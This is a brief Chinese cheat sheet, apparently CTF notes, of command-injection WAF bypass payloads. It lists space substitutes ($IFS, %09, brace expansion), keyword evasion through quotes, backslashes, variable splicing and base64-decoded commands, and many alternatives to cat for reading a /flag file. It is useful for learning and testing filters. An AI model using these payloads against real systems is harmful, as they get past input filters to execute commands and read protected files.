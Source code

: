- 空格
	- `$IFS // 注意后面不能接上字母`
	- `${IFS}`
	- `$IFS$1 //1改成其他数字貌似都行`
	- `cat<flag.php`
	- `<>`
	- `{cat,flag.php}`
	- `%20`
	- `%09&&`
- 反斜杠
	- `l\s`
- 单引号
	- `'l's`
- 双引号
	- "l"s`
- 命令拼接，内联执行
	- `a='l';b=s;$a$b`
- base64 编码
	- `echo d2hvYW1p | base64 -d`
- `ls`:
	- `dir`
- `cat`或文件名被 waf
  id:: 42eb4318-43ea-4079-963d-61943df49a8c
	- `curl file:///flag`
	- `head /flag`
	- `tail /flag`
	- `tac /flag`
	- `tac /fla?`
	- `tac /fla"g"`
	- `tac /fla'g'`
	- `awk '{print $0}' /flag`
	- `sed q100 /flag`
		- 读取前 99 行
	- `nl /fl?g`
	- `env cat /flag`
	- uniq
	- strings
	- cut
	- od
	- less
	- more
	- sort
	- hexdump
	- rev